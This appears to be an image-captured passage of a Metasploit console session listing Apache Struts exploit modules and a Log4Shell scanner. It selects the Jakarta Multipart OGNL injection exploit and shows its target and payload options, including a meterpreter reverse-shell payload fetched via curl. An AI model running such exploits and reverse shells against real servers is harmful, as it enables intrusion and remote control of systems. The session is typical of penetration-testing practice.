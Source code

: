 ```bash
   -   ----                                                     ---------------  ----       -----  -----------                                                                                                    
   0   exploit/multi/http/struts_default_action_mapper          2013-07-02       excellent  Yes    Apache Struts 2 DefaultActionMapper Prefixes OGNL Code Execution
   1   exploit/multi/http/struts_dev_mode                       2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   2   exploit/multi/http/struts2_multi_eval_ognl               2020-09-14       excellent  Yes    Apache Struts 2 Forced Multi OGNL Evaluation
   3   exploit/multi/http/struts2_namespace_ognl                2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   4   exploit/multi/http/struts2_rest_xstream                  2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE
   5   exploit/multi/http/struts2_code_exec_showcase            2017-07-07       excellent  Yes    Apache Struts 2 Struts 1 Plugin Showcase OGNL Code Execution
   6   exploit/multi/http/struts_code_exec_classloader          2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   7   exploit/multi/http/struts_dmi_exec                       2016-04-27       excellent  Yes    Apache Struts Dynamic Method Invocation Remote Code Execution
   8   exploit/multi/http/struts2_content_type_ognl             2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection
   9   exploit/multi/http/struts_code_exec_parameters           2011-10-01       excellent  Yes    Apache Struts ParametersInterceptor Remote Code Execution
   10  exploit/multi/http/struts_dmi_rest_exec                  2016-06-01       excellent  Yes    Apache Struts REST Plugin With Dynamic Method Invocation Remote Code Execution
   11  exploit/multi/http/struts_code_exec                      2010-07-13       good       No     Apache Struts Remote Command Execution
   12  exploit/multi/http/struts_code_exec_exception_delegator  2012-01-06       excellent  No     Apache Struts Remote Command Execution
   13  exploit/multi/http/struts_include_params                 2013-05-24       great      Yes    Apache Struts includeParams Remote Code Execution
   14  auxiliary/scanner/http/log4shell_scanner                 2021-12-09       normal     No     Log4Shell HTTP Scanner


Interact with a module by name or index. For example info 14, use 14 or use auxiliary/scanner/http/log4shell_scanner

msf6 > use 8
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/struts2_content_type_ognl) > options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080                yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /struts2-showcase/  yes       The path to a struts application action
   VHOST                          no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
```